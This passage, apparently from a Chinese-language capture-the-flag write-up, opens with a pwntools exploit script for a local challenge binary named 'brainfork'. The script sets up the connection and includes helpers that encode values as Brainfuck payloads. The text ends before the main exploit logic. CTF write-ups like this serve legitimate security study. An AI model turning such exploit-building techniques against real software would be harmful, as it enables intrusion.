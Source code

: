 由于出题人没有提供远程环境，所以我们在本地实验一下即可：

![brain2](brain2.png)

```python
#!/usr/bin/env python3

from functools import cache
from pwn import *

exe = ELF("brainfork_patched")
libc = ELF("libc-2.27.so")
ld = ELF("ld-2.27.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r)
        elif args.IDA:
            from pwnlib.util.proc import wait_for_debugger
            wait_for_debugger(r.pid)
    else:
        r = remote("127.0.0.1", 10045)

    return r


def minimize(payload: bytes):
    payload = payload.replace(b'.', b'')
    back = payload
    while True:
        payload = payload.replace(b'<>', b'')
        payload = payload.replace(b'><', b'')
        if payload == back:
            return back
        back = payload


space = 64 // 16
minus_to_zero = b'[-]'
copy_16 = b'[-' + b'>' * space + b'+' + b'>' * space + b'+' \
    + b'<' * (space * 2) + b']' + b'>' * (space * 2) \
    + b'[-' + b'<' * (space * 2) + b'+' + b'>' * \
    (space * 2) + b']' + b'<' * (space * 2)


@cache
def num2bf(x: int):
    x = str(hex(x))[2:]
    gadget1 = '[>++++++++++++++++<-]>'
    gadget2 = '[<++++++++++++++++>-]<'
    rev = True
    ans = ''
    for a in x:
        cnt = int(a, 16)
        ans += '+' * cnt
        ans += gadget1 if rev else gadget2
        rev = not rev
    return ans[:-len(gadget1)]

```